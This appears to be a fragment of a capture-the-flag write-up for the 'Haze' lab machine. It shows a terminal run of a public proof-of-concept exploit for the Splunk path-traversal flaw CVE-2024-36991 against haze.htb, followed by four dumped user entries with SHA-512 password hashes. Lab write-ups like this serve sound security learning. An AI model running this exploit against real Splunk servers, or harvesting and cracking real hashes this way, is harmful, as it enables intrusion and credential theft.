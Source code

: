 ![](./images/image-357.png)

```
[root@kali] /home/kali/Haze/CVE-2024-36991 (main) 
❯ python CVE-2024-36991.py -u http://haze.htb:8000/                                                                                                                                                           

                                                                        
  ______     _______     ____   ___ ____  _  _        _____  __   ___   ___  _                                                                                                                                  
 / ___\ \   / | ____|   |___ \ / _ |___ \| || |      |___ / / /_ / _ \ / _ \/ |                                                                                                                                 
| |    \ \ / /|  _| _____ __) | | | |__) | || |_ _____ |_ \| '_ | (_) | (_) | |                                                                                                                                 
| |___  \ V / | |__|_____/ __/| |_| / __/|__   _|________) | (_) \__, |\__, | |                                                                                                                                 
 \____|  \_/  |_____|   |_____|\___|_____|  |_|      |____/ \___/  /_/   /_/|_|                                                                                                                                 
                                                                                                                                                                                                                
-> POC CVE-2024-36991. This exploit will attempt to read Splunk /etc/passwd file.                                                                                                                               
-> By x.com/MohamedNab1l
-> Use Wisely.

[INFO] Log directory created: logs
[INFO] Testing single target: http://haze.htb:8000/
[VLUN] Vulnerable: http://haze.htb:8000/
:admin:$6$Ak3m7.aHgb/NOQez$O7C8Ck2lg5RaXJs9FrwPr7xbJBJxMCpqIx3TG30Pvl7JSvv0pn3vtYnt8qF4WhL7hBZygwemqn7PBj5dLBm0D1::Administrator:admin:changeme@example.com:::20152
:edward:$6$3LQHFzfmlpMgxY57$Sk32K6eknpAtcT23h6igJRuM1eCe7WAfygm103cQ22/Niwp1pTCKzc0Ok1qhV25UsoUN4t7HYfoGDb4ZCv8pw1::Edward@haze.htb:user:Edward@haze.htb:::20152
:mark:$6$j4QsAJiV8mLg/bhA$Oa/l2cgCXF8Ux7xIaDe3dMW6.Qfobo0PtztrVMHZgdGa1j8423jUvMqYuqjZa/LPd.xryUwe699/8SgNC6v2H/:::user:Mark@haze.htb:::20152
:paul:$6$Y5ds8NjDLd7SzOTW$Zg/WOJxk38KtI.ci9RFl87hhWSawfpT6X.woxTvB4rduL4rDKkE.psK7eXm6TgriABAhqdCPI4P0hcB8xz0cd1:::user:paul@haze.htb:::20152
```